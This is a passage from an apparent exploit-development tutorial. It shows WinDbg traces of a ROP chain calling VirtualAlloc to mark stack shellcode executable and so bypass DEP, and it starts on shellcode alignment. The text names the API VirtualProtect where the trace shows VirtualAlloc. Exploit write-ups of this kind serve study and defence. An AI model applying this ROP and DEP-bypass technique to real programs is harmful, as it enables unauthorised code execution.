 We can see that the last pop ebp gadget we put is going to pop 41414141 (one of the dummy values we have inserted to reach EIP) into ebp and then esp is going to point to our desired address.:
```c
0:004> dd esp L1
026ce2f0  76a65680
0:004> p
eax=51515151 ebx=0668b1c8 ecx=ffffffe8 edx=77182da0 esi=42424242 edi=00000000
eip=76a65680 esp=026ce2f4 ebp=41414141 iopl=0         nv up ei pl nz na po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000203
KERNEL32!VirtualAllocStub:
76a65680 8bff            mov     edi,edi
```

Now let's see our shellcode address (top of stack, we are going to return to it after VirtualAlloc, remember we placed it on purpose). Let's see the protections:
```c
0:055> dd esp
01a0e2f4  01a0e504 01a0e504 00000001 00001000
0:055> !vprot 01a0e504 
BaseAddress:       01a0e000
AllocationBase:    01970000
AllocationProtect: 00000004  PAGE_READWRITE
RegionSize:        00062000
State:             00001000  MEM_COMMIT
Protect:           00000004  PAGE_READWRITE
Type:              00020000  MEM_PRIVATE
```
Let's execute VirtualProtect and see the protections again (we use pt here to stop until next return).
```c
0:055> pt
eax=01a0e000 ebx=05d4a7e8 ecx=01a0e2c4 edx=77182da0 esi=42424242 edi=00000000
eip=755ddf31 esp=01a0e2f4 ebp=41414141 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
KERNELBASE!VirtualAlloc+0x51:
755ddf31 c21000          ret     10h
0:055> !vprot 01a0e504 
BaseAddress:       01a0e000
AllocationBase:    01970000
AllocationProtect: 00000004  PAGE_READWRITE
RegionSize:        00001000
State:             00001000  MEM_COMMIT
Protect:           00000040  PAGE_EXECUTE_READWRITE
Type:              00020000  MEM_PRIVATE
```
Before executing the API, we find that the memory protection is PAGE_READWRITE. But after executing the API, we observe that it is now the desired PAGE_EXECUTE_READWRITE.

# Aligning the shellcode with our return address
The final step is to align our shellcode with the return address. 
Note: Instead of modifying the offsets used in the ROP chain (would be another method, once we know the offset, modify it) we could also insert several padding bytes before the shellcode. 
We will do the second approach here.
